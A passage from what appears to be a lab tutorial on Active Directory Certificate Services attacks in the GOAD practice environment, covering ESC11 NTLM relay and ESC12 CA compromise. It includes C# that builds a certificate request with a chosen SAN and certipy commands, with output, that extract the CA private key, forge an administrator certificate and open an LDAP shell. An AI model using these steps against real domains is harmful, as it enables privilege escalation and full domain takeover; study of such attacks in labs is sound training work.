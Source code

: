 ```csharp
            "");
            
        request.Subject = new CX500DistinguishedName(subject);
        
        // Add SAN for GOAD domain
        var sanExtension = new CX509ExtensionAlternativeNames();
        var altNames = new CAlternativeNames();
        var altNameObj = new CAlternativeName();
        
        altNameObj.InitializeFromString(
            AlternativeNameType.XCN_CERT_ALT_NAME_RFC822_NAME,
            altname);
        altNames.Add(altNameObj);
        
        sanExtension.InitializeEncode(altNames);
        request.X509Extensions.Add(sanExtension);
        
        // Submit without encryption to vulnerable GOAD CA
        return request.Encode();
    }
}
```

The C# code above demonstrates how a certificate request (CSR) payload can be constructed. For the actual ESC11 attack, an attacker would typically use a tool like an adapted `ntlmrelayx.py` or custom tooling to relay incoming NTLM authentication (e.g., from a coerced machine account) to the ADCS server's `ICertRequestD` DCOM interface over unencrypted RPC. Once the NTLM relay is established, the attacker's tool submits the CSR (like the one generated above, often for a privileged account or a machine account with a useful SAN) on behalf of the relayed account. If successful, the CA issues the certificate for the target specified in the CSR, effectively escalating privileges.

## ESC12: Shell Access to CA Server

ESC12 is the holy grail - when you get shell access to the actual Certificate Authority server. At this point, you basically own the entire PKI infrastructure.

ESC12 also covers YubiHSM vulnerabilities discovered by Hans-Joachim Knobloch, but this specific attack vector is not implemented in the standard GOAD environment.

In GOAD, the CA server is `braavos.essos.local`. Let's say we've compromised it:

### Golden Certificate Creation (CA Private Key Compromise)

When you have CA administrator access (like `khal.drogo` in GOAD), you can extract the CA private key and forge golden certificates:

```bash
# Extract CA certificate and private key with certipy
certipy ca -backup -u khal.drogo@essos.local -p horse -dc-ip 192.168.56.12 -ca 'ESSOS-CA' -target 192.168.56.23 -debug

[*] Action: Backup CA
[*] Backing up CA 'ESSOS-CA'
[*] Saved certificate and private key to 'ESSOS-CA.pfx'

# Forge a certificate as domain admin
certipy forge -ca-pfx 'ESSOS-CA.pfx' -upn administrator@essos.local

[*] Action: Forge Certificate
[*] Forged certificate saved to 'administrator_forged.pfx'

# Authenticate with schannel
certipy auth -pfx administrator_forged.pfx -ldap-shell

[*] Action: Authenticate
```
